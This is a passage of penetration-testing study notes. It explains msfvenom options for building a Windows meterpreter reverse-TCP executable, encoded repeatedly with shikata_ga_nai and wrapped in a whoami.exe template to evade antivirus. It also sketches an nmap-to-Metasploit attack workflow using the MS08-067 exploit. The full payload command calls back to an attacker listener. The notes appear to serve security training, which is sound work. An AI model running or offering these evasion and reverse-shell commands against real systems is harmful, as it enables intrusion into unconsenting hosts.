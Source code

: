 The `-e` option specifies the encoder to use, which in this case is `x86/shikata_ga_nai`. An encoder is used to modify the payload in a way that makes it more difficult for antivirus software to detect it as malicious. The `x86/shikata_ga_nai` encoder is a common encoder that is known to be effective at bypassing antivirus software.

The `-i` option is used to specify the number of times to encode the payload. By encoding the payload multiple times, it becomes even more difficult for antivirus software to detect it as malicious. However, it is important to note that using such tools and payloads for unauthorized purposes is illegal and can lead to severe consequences. It is also important to note that using such tools and payloads should only be done by experts who understand the potential consequences and use them responsibly and ethically.

More legitimate, but still detectable with anti virus. Lets try another code

### `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.30.1.20 LPORT=4444 -f exe -o payload3.exe -e X86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/whoami.exe`

The second code improves upon the first by adding a `-x` option, which specifies an existing execut  able file to use as a template for the payload. In this case, the `whoami.exe` file from the `/usr/share/windows-binaries` directory is used as the template. By using an existing executable file as a template, the resulting payload appears more legitimate and is less likely to be detected as malware by antivirus software. However, it is still important to use such tools and payloads responsibly and ethically, and to understand the potential consequences of using them for unauthorized purposes.

## Exploiting a vulnerable system

1. The `map -sn <ip> --exclude <ip>` command is a part of Nmap, a popular network exploration and security auditing tool. It is used to perform a ping scan on a specified IP address (`<ip>`) and exclude a specified IP address (`--exclude <ip>`) from the scan. A ping scan is a type of scan that sends an ICMP echo request to a host to check if it is online. The `--exclude` option is used to exclude a specific IP address from the scan. This can be useful in situations where you want to scan a range of IP addresses but want to exclude a particular IP address from the scan.
2. `nmap -A <ip>` is an aggressive scan command used to perform comprehensive testing on a target system including OS detection, version detection, script scanning, and traceroute. The `-A` option is used to enable aggressive mode. It is important to use such tools and techniques responsibly and ethically, as aggressive scanning can be detected by IDS and can potentially disrupt network traffic.
3. find sevice and its version, then find its vulnerabilities on the google. 
4. Then do the following
    
    To use `msfconsole` in the Metasploit Framework, follow these steps:
    
    1. Open a terminal and type `msfconsole` to launch the Metasploit Framework console.
    2. Use the `search` command to search for exploits or payloads related to your target. For example, `search windows 7` will return a list of exploits and payloads for Windows 7.
    3. Use the `use` command to select an exploit or payload. For example, `use exploit/windows/smb/ms08_067_netapi` will select the MS08-067 exploit for Windows systems.
    4. Use the `set` command to set the required options for the exploit or payload. For example, `set RHOST 192.168.1.1` will set the remote host to 192.168.1.1.
    5. Use the `run` command to execute the exploit or payload. For example, `run` will execute the selected exploit or payload.
    
    It is important to use such tools and techniques responsibly and ethically, and to understand the potential consequences of using them for unauthorized purposes.
    